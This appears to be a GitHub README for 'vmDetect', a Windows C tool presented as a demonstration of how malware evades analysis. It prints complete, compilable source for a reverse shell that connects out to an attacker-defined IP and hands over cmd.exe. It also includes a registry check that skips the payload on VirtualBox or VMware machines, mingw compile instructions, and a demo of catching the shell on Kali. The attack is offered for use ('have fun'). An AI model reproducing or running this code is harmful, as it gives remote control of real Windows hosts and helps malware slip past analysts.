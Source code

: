 # Introduction
`vmDetect` is a tool designed to run malicious code (in this case, a reverse shell) on the target, with the catch that it only runs on real computers (Windows hosts). This is only a demonstration on how cyber criminals can difficult the malware analysis, and as a disclaimer, I'm not resposible of the bad use you can give to this tool.
Also, this is an enhanced version of [the original tool](https://github.com/screeck/YouTube/blob/main/Detect_VM/main.c), kudos to [screeck](https://github.com/screeck) :P
# Code analysis
## Functions
`main.c` contains four functions:
1. `reverse_shell()`: this function sends an interactive command prompt `cmd.exe` to the attacker using a [standard windows reverse shell in C](https://github.com/izenynn/c-reverse-shell/blob/main/windows.c):
```c
void reverse_shell() {
    WSADATA wsaData;
    if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0) {
        return;
    }

    int port = CLIENT_PORT;
    struct sockaddr_in sa;
    SOCKET sockt = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
    if (sockt == INVALID_SOCKET) {
        WSACleanup();
        return;
    }

    sa.sin_family = AF_INET;
    sa.sin_port = htons(port);

    struct in_addr addr;
    if (inet_pton(AF_INET, CLIENT_IP, &addr) != 1) {
        closesocket(sockt);
        WSACleanup();
        return;
    }
    sa.sin_addr = addr;

    if (connect(sockt, (struct sockaddr*)&sa, sizeof(sa)) != 0) {
        closesocket(sockt);
        WSACleanup();
        return;
    }

    STARTUPINFO sinfo;
    memset(&sinfo, 0, sizeof(sinfo));
    sinfo.cb = sizeof(sinfo);
    sinfo.dwFlags = STARTF_USESTDHANDLES;
    sinfo.hStdInput = (HANDLE)sockt;
    sinfo.hStdOutput = (HANDLE)sockt;
    sinfo.hStdError = (HANDLE)sockt;
    PROCESS_INFORMATION pinfo;
    if (!CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &sinfo, &pinfo)) {
        closesocket(sockt);
        WSACleanup();
        return;
    }

    WaitForSingleObject(pinfo.hProcess, INFINITE);
    CloseHandle(pinfo.hProcess);
    CloseHandle(pinfo.hThread);
    closesocket(sockt);
    WSACleanup();
}
```
2. `execute`: this function simply calls to the above one (if the conditions are OK, we'll see that later on).
```c
void execute() {
    reverse_shell();
}
```
3. `dont_execute`: as you can tell by its name, it does literally nothing. This is the code I gave to it.
```c
void dont_execute() {
    // do shit
}
```
4. `check_registry_key`: now last but not least, this function is in charge of checking if any of the later on provided registry keys exist.
```c
int check_registry_key(const char* keyPath) {
    HKEY hKey;
    LONG result = RegOpenKeyExA(HKEY_LOCAL_MACHINE, keyPath, 0, KEY_READ, &hKey);
    if (result == ERROR_SUCCESS) {
        RegCloseKey(hKey);
        return 1; 
    }
    return 0; 
}
```
Additionally, there is the `main` function, which orchestrates the overall behavior of the program by checking registry keys and calling the appropriate functions based on their existence.
```c
int main() {
    const char* keyPath1 = "SYSTEM\\CurrentControlSet\\Services\\VBoxGuest";
    const char* keyPath2 = "SYSTEM\\CurrentControlSet\\Services\\vmhgfs";

    if (check_registry_key(keyPath1) || check_registry_key(keyPath2)) {
        dont_execute();
    }
    else {
        execute();
    }
    return 0;
}
```
## How it works
What this code basically does is to firstly, check if any of these registry keys exist:
```
SYSTEM\\CurrentControlSet\\Services\\VBoxGuest
SYSTEM\\CurrentControlSet\\Services\\vmhgfs
```
If any of these does, then it means the target is on a VM (virtual machine), so the malware will proceed to execute the function `dont_execute`, thus, doing nothing.
However, if you're running it from a Windows host, it won't find any of these two keys, so it will proceed to run the `execute` function, meaning it will then run your reverse shell. 
> Note: this C code ain't obfuscated, so if you want to bypass defender, you'll have to craft your own payload. I won't share my obfuscated payloads to the whole internet for obvious reasons.
# Demonstration
For this demonstration I'm using 3 VMs and 1 host (my Windows host);
- 1 kali VM (VMware) -- (bridged and NAT network)
- 1 Windows 11 VM (VMware) -- (NAT network)
- 1 Windows 10 VM (VBox) -- (bridged network)

As you can see on the following  video, the tool fails on VMware:

https://github.com/user-attachments/assets/c59f9c7d-bb6b-4838-a083-868feb7f0580

And it fails as well on Virtual Box:

https://github.com/user-attachments/assets/38034e3e-d1c5-4a64-b05f-01f9b06224f0

But, if I run it from my host, I get a shell on my Kali box:

![image](https://github.com/user-attachments/assets/b2e40e83-2833-42a7-8d42-cb75cc5a97f3)

> Note: Obviously, the CMD window will hang until you exit the shell.

# Compilation
Simply, on Visual Studio, clone the repo and hit `CTRL` + `SHIFT` + `B`. If you're on linux, run:

```bash
ruycr4ft@hacky:~$ x86_64-w64-mingw32-gcc -o main.exe main.c
```
After that, you're ready to go! Have fun and use it well.
